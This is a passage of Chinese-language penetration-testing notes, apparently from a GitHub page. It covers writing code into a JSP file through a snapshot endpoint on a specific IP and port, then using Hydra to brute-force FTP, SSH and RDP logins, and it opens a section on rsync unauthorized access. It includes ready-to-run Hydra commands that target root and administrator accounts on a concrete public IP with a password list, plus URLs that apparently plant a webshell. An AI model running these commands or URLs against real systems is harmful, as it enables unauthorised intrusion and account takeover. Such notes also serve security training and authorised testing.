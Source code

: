 3、访问8080端口snapshot-yz.jsp文件写入代码到test.jsp中

```
http://123.58.236.76:31557/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success

http://123.58.236.76:31557/wwwroot/test.jsp
```

# 应用协议

## Hydra-FTP&RDP&SSH

https://github.com/vanhauser-thc/thc-hydra
hydra是一个自动化的爆破工具，暴力破解弱密码，
是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可

```
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
```

server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等
**例子**：

```
FTP：文件传输协议
RDP：Windows远程桌面协议
SSH：Linux安全外壳协议
hydra -L test -P 10top1K.txt 47.110.53.159 ftp -V
hydra -l root -P 10top1K.txt 47.110.53.159 ssh -V
hydra -l administrator -P 10top1K.txt 47.110.53.159 rdp -V
```

## Rsync文件备份

配置不当-未授权访问

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听`873`端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件
